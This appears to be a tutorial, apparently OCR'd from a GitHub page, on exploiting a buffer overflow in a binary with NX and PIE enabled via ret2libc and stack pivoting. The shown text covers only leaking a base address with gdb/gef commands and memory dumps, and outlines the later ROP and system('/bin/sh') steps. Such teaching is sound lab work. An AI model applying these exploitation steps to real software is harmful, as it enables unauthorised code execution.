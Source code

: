 #### Exploiting BOF with NX and PIE enabled using ret2libc and stack pivoting.

Bypassing NX and PIE requires a two step process:

* Leaking a base memory address from the vulnerable binary
* Constructing the ROP chain.
* Creating enough space for the ROP chain to be executed in the stack
* Bypassing ASLR protection by finding the Glibc address
* Finding the offset of `system` and `/bin/sh`
* Putting it altogether in an exploit script

**Leaking the base memory address** The base memory address can be found by executing the below command in gdb with gef plugin enabled

```
p/x start memory address- start of user input memory address
```

A start memory address can be found by displaying the memory mappings with the below command

```
vmmap
```

You can grab the first memory address under `start` The start of user input memory address can be found by finding the memory address that highlights the start of the input. This can be extracted by sending a test user input to the binary such as `test` and then we use `pattern search` or `grep` depending if you are using `gdb with peda` or `gdb with gef` respectively.

```
grep test
pattern search test
```

This will give you the memory address that highlights the start of the user input. Example output is below

```
gef➤ grep test

[+] Searching 'test' in memory 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw- 
0x7fffffffe620 - 0x7fffffffe626 → "test\n"
```

From above output we can then execute the below command

```
x/20gx 0x7fffffffe620
```

An example output is below

```
gef➤ x/20gx 0x7fffffffe620 0x7fffffffe620: 0x0000000a66647361 0x0000000000000000 

0x7fffffffe630: 0x0000000000000000 0x0000000000000000 

0x7fffffffe640: 0x0000000000000000 0x00005555555580c0 

0x7fffffffe650: 0x0000000000000032 0x0000000000000032 

0x7fffffffe660: 0x0000555555556123 0x00005555555550fe 

0x7fffffffe670: 0x0000555555555360 0x0000555555555360 

0x7fffffffe680: 0x0000000000000000 0x00007ffff7de1083 

0x7fffffffe690: 0x00007ffff7ffc620 0x00007fffffffe778 

0x7fffffffe6a0: 0x0000000100000000 0x00005555555550a0 
```